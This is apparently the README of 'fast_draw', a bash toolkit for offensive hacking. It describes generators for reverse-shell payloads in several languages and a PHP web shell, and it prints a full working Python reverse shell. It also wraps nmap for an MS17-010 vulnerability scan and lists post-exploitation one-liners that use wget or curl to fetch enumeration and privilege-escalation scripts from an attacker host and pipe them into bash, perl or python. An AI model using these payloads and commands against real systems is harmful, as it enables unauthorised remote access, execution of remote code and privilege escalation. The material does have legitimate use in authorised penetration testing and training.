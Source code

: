 # fast_draw

Shellscripts functions to automate stuff in hacking


## How load the functions:
To load the functions, you just need to load the bash file to your environment: 
```
. gun
```
You can automate this load using the ~/.bashrc file to load every time you open a shell. 


## How use: 
### Generating payloads: 
## Available payloads:
```
[-] Payloads list
payloads:
bash  java  netcat  perl  php  python  ruby

payloads/bash:
bash_dev_tcp_reverse_tcp

payloads/java:
reverse_tcp

payloads/netcat:
fdesc_reverse_tcp  reverse_tcp

payloads/perl:
reverse_tcp

payloads/php:
reverse_tcp  system_web_shell

payloads/python:
reverse_tcp

payloads/ruby:
reverse_tcp

```
#### Listing
```
$ genweapon help
[!] Help menu:
bash list -> List available payloads
bash generate PAYLOAD_PATH LHOST LPORT OUTPUT
	 Example: bash generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/shell.p
```

#### Creating 
Syntax: 

```
$ genweapon generate payloads/path_to_/payloadfile LHOST LPORT OUTPUT_FILE 
```

Example: 
```
$ genweapon generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/pyshell.py 
[-] Generating the payload
[-] Payload saved at /tmp/pyshell.py
operador@remember:~/scripts/shellscript/fast_draw$ cat /tmp/pyshell.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Automating nmap nse scans: 
Syntax: 

```
nse smb target ports 
```

Example: 

```
$ nse ms17-010 192.168.10.10 139,445
sudo nmap -p 139,445 --script=smb-vuln-ms17-010.nse -oN nmap_nse_smb-vuln-ms17-010.nse 192.168.10.10

```

### Generate commands to help at Post Exploitation/Priv Escalation
#### Linux: 
Syntax:

```
weblinux LHOST <wget|curl> 
```

Example:

```
$ weblinux 192.168.10.10 wget
wget -q http://192.168.10.10/LinEnum.sh -O - | bash
wget -q http://192.168.10.10/linpeas.sh -O - | bash
wget -q http://192.168.10.10/linux-exploit-suggester-2.pl -O - | perl
wget -q http://192.168.10.10/linux-exploit-suggester.sh -O - | bash
wget -q  http://192.168.10.10/linuxprivchecker.py -O - | python
$ weblinux 192.168.10.10 curl
curl -s http://192.168.10.10/LinEnum.sh | bash
curl -s http://192.168.10.10/linpeas.sh | bash
curl -s http://192.168.10.10/linux-exploit-suggester-2.pl | perl
curl -s http://192.168.10.10/linux-exploit-suggester.sh | bash
curl  -s http://192.168.10.10/linuxprivchecker.py | python
```
